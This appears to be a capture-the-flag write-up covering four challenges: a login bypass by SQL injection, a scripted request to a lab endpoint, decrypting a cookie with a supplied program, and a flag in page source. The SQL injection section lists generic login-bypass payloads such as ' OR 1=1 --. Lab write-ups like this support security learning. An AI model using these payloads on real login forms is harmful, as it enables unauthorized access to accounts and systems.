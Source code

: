 ## SQL Injection

The first login page is vulnerable to SQL injection. The following payloads can be used to bypass the login:

\`\`\`
admin' --
admin' #
admin'/_
' OR 1=1 --
' OR 1=1 #
' OR 1=1/_
') OR '1'='1--
') OR ('1'='1--
\`\`\`

Use this payload in either the username or password field to bypass the login, obtaining the first flag.

## Cross-Site Scripting

Using the downloaded script from the website, we can inject a script into the console of the browser, leading to a successful XSS attack. The following payload can be used to inject the script:

```javascript
fetch("/execute_xss", {
  headers: {
    "X-Execute-XSS": "true",
  },
}).then((response) => {
  if (response.ok) {
    window.location.href = "/execute_xss_redirect";
  }
});
```

This would cause a redirect to the `/execute_xss_redirect` page, where the second flag would be displayed.

## Cookie decryption

After the XSS attack, an encrypted cookie is stored in the browser, which can be decrypted using the provided custom program.

To execute the program, it need to be executable. To do this, run the following command:

```bash
chmod +x dcrpt_xxx_yyy
```

Then, run the program:

```bash
./dcrpt_xxx_yyy
```

The decrypted cookie will be displayed, containing the third flag.

## Web

The website contains the final flag in the source code of the page. By inspecting the source HTML code, the fourth flag can be found.
